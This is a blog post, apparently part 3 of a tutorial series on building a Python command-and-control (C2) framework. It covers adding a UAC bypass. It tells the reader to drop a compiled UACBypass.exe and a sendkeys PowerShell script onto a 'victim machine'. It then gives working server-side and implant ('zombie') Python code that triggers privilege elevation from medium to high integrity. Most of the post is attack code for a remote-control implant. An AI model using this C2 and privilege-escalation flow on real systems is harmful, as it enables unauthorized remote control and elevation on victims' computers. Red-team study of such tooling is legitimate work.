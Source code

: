 Instead of posting all the Python code, I'm going to ask that you reference the code from the previous posts.  That way, I can get straight to the new features and post smaller snippits.  I think that will help explain the new additions to our C2 better and make things easier to follow.

All the Visual Studio projects related to this blog post can be found here: [C2 Part 3 - Files](https://github.com/g3tsyst3m/CodefromBlog/tree/main/2024-12-20-Create%20your%20own%20C2%20using%20Python%20-%20Part%203)

> **Prep**

- Be sure to open and compile the UIAccess_bypassUAC C++ project.  
- Rename the resulting `.exe` file to `UACBypass.exe` and copy/upload it to the `c:\users\public directory` on the victim machine.  This will be used as our bypass UAC utility and integrated into the C2.
- Finally, copy/upload the `getitdone.ps1` file to the victim box, also in the `c:\users\public` directory.  I was lazy and called it getitdone.  feel free to change it if you like lol.  This is the script that issues the sendkeys portion of the UAC bypass and opens an elevated executable using `azman.msc`

**> Server side**

```python
if choice == "bypassuac":
            print("checking to see if this user is a member of the admins group...")
            if "True" in clientdata[selection][2]:
                print("Nice! You're in the administrators group.  continuing...")
            else:
                print("Sorry, you're either already SYSTEM or you need to be a member of the administrators groups for this to work")
                time.sleep(4)
                return
            #attackerip=input(Fore.YELLOW + "[What is the IP of your attacker box (likely this box you're using right now)]: $ " + Fore.WHITE)
            #attackerport=input(Fore.YELLOW + "[What is the port of your attacker box (likely this box you're using right now)]: $ " + Fore.WHITE)
            print("Attempting to elevate privileges from medium to high integrity with current user...")
            try:
                clientlist[selection][1].send(b":bypassuac:\n")
                print(Fore.GREEN + "[+] command successfully sent!" + Fore.WHITE)
                uacstatus=clientlist[selection][1].recv(1024)
                uacstatus = uacstatus.decode('UTF-8')
                print(uacstatus)
                time.sleep(4)
            except:
                print(Fore.RED + "[!] There was an issue communicating with the zombie...\ncheck to see if your zombie died" + Fore.WHITE)
                time.sleep(2)
```

> **Client / Implant code** 🧟

```python
if ":bypassuac:" in data:
            if str(shell.IsUserAnAdmin()) == "True":
                print("LOL, good news!  you're already in an elevated shell!")
                client.send(b"Already in elevated shell!\n")
            elif os.getlogin() == "SYSTEM":
                print("You're already SYSTEM ;)")
                client.send(b"You're already SYSTEM ;)\n")
            else:
                print("Attempting to bypassUAC now!")
                proc = subprocess.Popen("C:/Users/public/UACBypass.exe", stdin=subprocess.PIPE, stdout=subprocess.PIPE, stderr=subprocess.PIPE)
                #proc = subprocess.Popen(["c:/users/robbi/source/repos/UACBypass/x64/Debug/UACBypass.exe"], stdin=subprocess.PIPE, stdout=subprocess.PIPE, stderr=subprocess.PIPE)
                #client.send(b"returned output: \n"+proc.stdout.read())
```